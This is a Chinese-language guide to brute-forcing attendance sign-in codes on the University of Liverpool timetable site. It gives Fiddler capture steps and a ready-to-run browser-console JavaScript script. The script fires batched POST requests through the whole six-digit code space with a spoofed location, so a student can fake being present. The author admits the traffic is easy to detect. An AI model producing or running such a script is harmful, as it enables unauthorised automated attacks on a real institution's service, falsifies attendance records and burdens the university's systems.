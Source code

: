 # UoL - Attendance Code 爆破

<aside>
💡 请谨慎使用

此方法极易被检测到异常流量, 不清楚现在及未来, 管理员是否会针对该方法

</aside>


## 0.1 原理

通过浏览器开发人员控制台, 执行JS爆破

抓包, **模拟请求**

由于涉及到 SSL证书 等操作, 这个方法比写程序容易操作很多, 无论是编写还是执行

## 0.2 可行性

多个线程进行爆破, 经测试, 15min 300000个

1. 据观察, 没有0开头的6位签到码

2. 据观察, 连续执行一段时间后, 会触发冷却

可行性仍有待研究


## 1.1 初始化准备

1. 浏览器
2. 抓包工具 (以 `Fiddler` 为例)

## 1.2 准备数据 (先手动操作一遍, 获取请求信息)



1. 浏览器打开 Timetable
    
    [Sign In](https://timetables.liverpool.ac.uk/)
    
2. 打开 Fiddler
3. 进入timetable, 打开指定课程, 输入一次签到码
4. 切换回 Fiddler, 从左侧列表中的 `Host` 列, 找到 `timetables.liverpoo.ac.uk` 且其对应的  `URL`   列显示为 `/services/register-attendance-student` , 双击该行
    
    ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3a352054-ceaa-444b-a420-1b33e16e0047/c0e70c2e-df67-4058-b784-bb332f4e7c0a/Untitled.png)
    

## 1.3 构建脚本数据



1. 选中 Fiddler 左侧行后, 右侧会显示 该数据包相关信息
2. 点击 `raw` 选项卡, 里边最后一行就是数据正文
    
    ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3a352054-ceaa-444b-a420-1b33e16e0047/9239a0a9-890c-4a94-9410-f59c8f88b11f/Untitled.png)
    
3. 从里边提取对应字段, 替换下方脚本代码 `body` 对应字段
    
    ``` javascript
    async function sendBatchRequests(start, end, batch) {
      let batchPromises = [];

      for (let i = start; i <= end; i += batch) {
        batchPromises = [];
        for (let j = i; j < i + batch && j <= end; j++) {
          let attCodeInputValue = j.toString().padStart(6, "0");
          batchPromises.push(
            fetch("https://timetables.liverpool.ac.uk/services/register-attendance-student", {
              method: "POST",
              headers: {
                "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
              },
              // 请自行修改以下内容
              body: `attCodeInput=${attCodeInputValue}&uniqueId=UNIQUEID&actId=ACTID&attStart=12%2F03%2F2024+12%3A00&attEnd=12%2F03%2F2024+13%3A15&location=53.40998037885158%2C-2.958224235311767`,
            }).then(response => response.json())
            .then(data => console.log(data))
            .catch(error => console.error('Error:', error))
          );
        }

        await Promise.all(batchPromises);
        console.log(`Batch from ${i} to ${Math.min(i + batch - 1, end)} completed.`);
        await new Promise((resolve) => setTimeout(resolve, 1000)); // 间隔时间
      }
    }

    sendBatchRequests(100000, 999999, 10000); // 分割的数量

    ```
    

## 1.4 发送数据


1. 切换回浏览器的Timetable选项卡
2. 按 `F12` 打开开发者控制台
3. 切换到 `console` 选项卡
4. 粘贴你刚刚构建好的脚本, 回车执行

## 2.1 补充
- Edge浏览器记得关闭标签页休眠!
